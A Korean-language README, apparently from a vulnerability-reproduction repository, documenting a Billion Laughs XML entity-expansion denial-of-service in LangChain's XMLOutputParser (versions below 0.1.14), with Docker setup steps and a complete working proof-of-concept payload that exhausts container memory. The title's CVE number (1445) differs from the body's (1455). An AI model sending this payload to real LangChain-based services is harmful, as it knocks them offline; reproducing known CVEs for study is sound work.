 # Billion laughs Attack in LangChain (CVE-2024-1445)

영향을 받는 버전: langchain >=0,<0.1.14  
해당 취약점은 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.

## Description

**CVE-2024-1455**는 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.  
Billion Laughs Attack은 XML 파싱 프로세스를 악용한 XXE 취약점의 한 유형이다. 해당 공격은 XML 문서 내에 여러 계층의 엔티티를 중첩하여 XML 파서가 엔티티를 확인하고 확장하는 과정에서 과도한 CPU 및 메모리 리소스를 소모하게 만든다. 이러한 과도한 리소스 사용은 서비스 거부 공격(DoS)으로 이어져 영향을 받는 시스템의 가용성과 성능에 심각한 영향을 미친다.

---

## Environmental Construction

* 취약한 버전의 langchain과 해당 버전에 맞는 패키지를 찾아 `requirements.txt`를 구성한다.
* Langchain의 XMLOutputParser를 익스플로잇 할 수 있는 `poc.py` 작성한다.
* 이후 `Dockerfile`과 `docker-compose.yml` 파일 작성한다.

---

## Proof of Concept

```
docker compose up
```
* 해당 명령으로 `docker-compose.yml` 파일을 실행한다.
  
```
from langchain.output_parsers import XMLOutputParser


payload="""<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>"""

parser = XMLOutputParser()

parser.parse(payload)
```
* 이후 해당 `poc.py`가 실행된다.

---

## Output
* Successful Exploit:  
![image](https://github.com/user-attachments/assets/a16acad6-4456-4c93-a7bc-08b139f4db3f)
* 해당 이미지처럼 137 코드가 반환되면서 컨테이너가 종료되면 익스플로잇 성공.
* 137 코드는 Dokcer의 OOM(Out of Memory) 에러로 Billion Laughs Attack으로 인해 컨테이너의 메모리가 모두 소모되어 OOM 에러가 발생한다.
<br>

![after2](https://github.com/user-attachments/assets/a9a85804-2508-4f2b-99ee-26c0a7cbc1ac)
* 보다 자세한 결과 확인을 위해 `Dockfile`에서 `/bin/bash`를 실행하게 수정 후 `htop`으로 리소스 상태를 확인해본다.
* `poc.py` 실행 결과 CPU 사용량과 메모리 소비량이 급격히 늘어나는 것을 볼 수 있다.
<br>

![after3](https://github.com/user-attachments/assets/e54a2d39-152c-4a4a-8455-db201cf5386b)
* 메모리 과다 사용으로 인해 컨테이너에서 해당 프로세스를 SIGKILL로 종료한다.

---

## Reference
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-1455  
https://data.safetycli.com/vulnerabilities/CVE-2024-1455/66962  
https://huntr.com/bounties/4353571f-c70d-4bfd-ac08-3a89cecb45b6
